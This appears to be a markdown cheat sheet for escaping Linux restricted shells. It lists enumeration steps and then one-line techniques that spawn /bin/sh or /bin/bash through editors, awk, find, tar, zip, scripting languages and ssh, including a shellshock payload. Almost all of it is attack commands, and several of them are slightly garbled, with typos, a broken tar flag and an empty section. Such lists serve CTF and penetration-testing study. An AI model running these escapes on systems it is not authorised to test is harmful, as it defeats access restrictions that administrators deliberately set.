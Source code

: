 ### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - >
  - <
  - >>
  - |

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- '/' run /bin/sh or /bin/bash
- 'cp' copy /bin/sh or /bin/bash into your directory
- 'ftp' run ftp>!/bin/bash or ftp>!/bin/sh
- 'gdb' run gdb>!/bin/bash or gdb>!/bin/sh
- 'vim' run vim>!/bin/bash or vim>!/bin/sh
- 'rvim' run rvim>:python import os;os.system("bin/bash")
- 'scp' run scp>scp -S /path/your/script x y:
- 'awk' run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- 'find' run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- 'except' run except> except spawn sh thne sh
- 'python' run python -c 'import os;os.system("/bin/sh")'
- 'php' run php>php -a then exec("sh -i");
- 'perl' run perl>perl -e 'exec"/bin/sh";'
- 'lua' run lua>os.execute('/bin/sh')
- 'ruby' run ruby>exec "/bin/sh"

### Advance Techniques
- 'ssh' run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- 'ssh2' run ssh2>ssh username@IP -t "bash --noprofile"
- 'ssh3' run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- 'ssh4' run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- 'tar' run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- 'zip' run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- 'pico' run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- 'git' run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf

